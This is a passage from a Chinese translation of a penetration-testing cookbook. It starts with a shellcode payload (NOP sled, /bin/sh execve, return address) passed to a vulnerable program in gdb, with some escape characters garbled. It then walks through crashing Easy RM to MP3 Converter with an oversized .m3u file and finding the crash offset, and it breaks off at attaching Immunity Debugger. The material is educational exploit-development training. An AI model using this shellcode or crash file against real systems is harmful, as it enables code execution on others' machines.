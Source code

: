 ```
 r $(python -c print' "\x90"*76+"\x6a\x0bx58x31\xf6\x56\x68\
        x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\
        xcd\x80"+"\xa0\xff\xf1\xbf"+"\x90"*20')
```

1.  我们输入`c`以从断点继续，一旦执行完成，我们的 shell 就会被执行。

# 利用真实软件的缓冲区溢出

您之前已经学习了利用的基础知识。现在让我们尝试在一些早已被利用并且有公开利用的软件上进行尝试。在这个示例中，您将了解旧软件的公开利用以及为其创建自己版本的利用。

在开始之前，我们需要一个旧版本的 Windows 操作系统（最好是 Windows XP）和一个 Windows 调试器。我使用了 Immunity Debugger 和一个已知的缓冲区溢出漏洞的旧软件。我们将使用*Easy RM to MP3 Converter*。这个版本在播放大型 M3U 文件时存在缓冲区溢出漏洞。

# 准备工作

Immunity Debugger 的免费版本可以在[`www.immunityinc.com/products/debugger/`](https://www.immunityinc.com/products/debugger/)上下载。 

# 如何做...

按照给定的步骤来学习：

1.  接下来，我们下载并在机器上安装我们的 MP3 转换器。

1.  这个转换器在播放 M3U 文件时存在漏洞。当使用它打开一个大文件进行转换时，软件会崩溃。

1.  让我们创建一个文件，里面写入大约 30,000 个`A`，并将其保存为`<filename>.m3u`：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/2237b2f9-0aa0-4912-80e7-01c65bcc2b91.png)

1.  然后，我们将文件拖放到播放器中，我们会看到它崩溃了：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/24084d91-a809-4a7c-a5e6-bb289d7855aa.png)

1.  现在我们需要找到导致崩溃的确切字节数。

1.  在文件中手动输入这么多`A`将会花费很长时间，所以我们写一个简单的 Python 程序来代替我们做这件事：

```
        import io
        a="A"*30000
        file =open("crash.m3u","w")
        file.write(a)
        file.close()
```

1.  现在我们玩弄字节，找到崩溃的确切值。

1.  在我们的情况下，由于程序在 26,104 字节处没有崩溃，所以它的长度是 26,105：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/ff14a5e0-2a9f-4c2a-8ac8-4b2cf31e5ee6.png)

1.  现在，我们运行我们的调试器，并通过导航到 File | Attach 将正在运行的转换程序附加到它：
